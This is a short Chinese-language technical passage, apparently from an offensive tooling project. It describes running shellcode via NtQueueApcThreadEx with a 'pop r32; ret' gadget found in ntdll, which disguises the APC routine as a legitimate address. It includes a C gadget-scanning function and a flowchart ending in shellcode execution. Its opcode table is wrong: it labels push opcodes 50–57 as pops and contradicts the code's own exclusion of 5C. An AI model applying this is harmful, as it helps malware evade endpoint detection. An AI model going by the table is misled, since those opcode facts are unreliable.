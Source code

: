 ```asm
5X C3    ; pop r32; ret
```

### 字节模式

- **第一个字节**：`5X`（pop r32）
  - `50` = pop eax/rax
  - `51` = pop ecx/rcx
  - `52` = pop edx/rdx
  - `53` = pop ebx/rbx
  - `54` = pop esp/rsp（❌ 排除）
  - `55` = pop ebp/rbp
  - `56` = pop esi/rsi
  - `57` = pop edi/rdi
  - `58-5F` = pop r8-r15 (x64)

- **第二个字节**：`C3`（ret）

### 匹配逻辑

```c
BOOL IsValidGadget(PBYTE address) {
    // (*address & 0xF0) == 0x50: 检查高 4 位是否为 5
    // *address != 0x5C: 排除 pop esp（会破坏栈）
    // *(address + 1) == 0xC3: 检查下一个字节是否为 ret
    return (*address != 0x5C && (*address & 0xF0) == 0x50) && *(address + 1) == 0xC3;
}
```

## 执行流程图

```
NtQueueApcThreadEx(
    hThread,
    NULL,
    ntdll!<pop r32; ret>,  ← ApcRoutine（合法地址）
    shellcode,             ← SystemArgument1
    NULL,
    NULL
)
    ↓
NtTestAlert() / WaitForSingleObjectEx()
    ↓
线程进入 alertable 状态
    ↓
APC 调度
    ↓
跳转到 ApcRoutine (ntdll!<pop r32; ret>)
    ↓
执行 pop r32（弹出栈上的参数）
    ↓
执行 ret（返回到 SystemArgument1）
    ↓
Shellcode 执行 ✨
```
